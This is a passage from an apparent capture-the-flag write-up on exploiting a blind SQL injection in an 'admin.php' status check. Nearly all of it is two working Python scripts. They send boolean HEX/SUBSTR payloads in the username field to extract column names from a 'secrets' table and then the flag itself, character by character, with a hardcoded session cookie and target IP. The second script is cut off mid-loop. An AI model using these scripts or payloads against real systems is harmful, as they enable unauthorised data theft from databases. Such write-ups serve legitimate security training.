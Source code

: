 Found a table called `secrets` - now we're talking! Next script was for extracting column names from that table:

```python
import requests

url = "http://34.18.12.84:8086/admin.php?action=check"
cookies = {"PHPSESSID": "d72b2109670db5942d4eea110b92bd35"}

def is_char(pos, ascii_code, offset):
    hex_char = f"{ascii_code:02x}"
    payload = f"""admin' AND HEX(SUBSTR((SELECT name FROM pragma_table_info('secrets') LIMIT 1 OFFSET {offset}), {pos}, 1)) BETWEEN '{hex_char}' AND '{hex_char}' --"""
    r = requests.post(url, data={"action": "status", "username": payload}, cookies=cookies)
    return "User is active" in r.text

def extract_column_name(offset):
    name = ""
    for pos in range(1, 100):
        found = False
        for c in range(32, 127):
            if is_char(pos, c, offset):
                name += chr(c)
                print(f"[{offset}] {name}")
                found = True
                break
        if not found:
            break
    return name

for offset in range(5):
    col = extract_column_name(offset)
    if col:
        print(f"[+] Column {offset}: {col}")
```

Found a column called `secret` - this is getting easier! Final script to extract the actual flag:

```python
import requests
import string
URL = "http://34.18.12.84:8086/admin.php?action=check"
COOKIES = {"PHPSESSID": "d72b2109670db5942d4eea110b92bd35"}

known = "ASCWG{"
start_pos = len(known) + 1 

charset = ''.join(chr(i) for i in range(32, 127))

def is_char(pos, c):
    hex_char = format(ord(c), "X").zfill(2)
    payload = f"""admin' AND HEX(SUBSTR((SELECT secret FROM secrets LIMIT 1 OFFSET 0), {pos}, 1)) BETWEEN '{hex_char}' AND '{hex_char}' --"""
    r = requests.post(URL, data={"action": "status", "username": payload}, cookies=COOKIES)
    return "User is active" in r.text

def extract_secret():
    secret = known
    for pos in range(start_pos, 100):
        found = False
        for c in charset:
            if is_char(pos, c):
                secret += c
                print(f"[{pos}] {secret}")
                found = True
```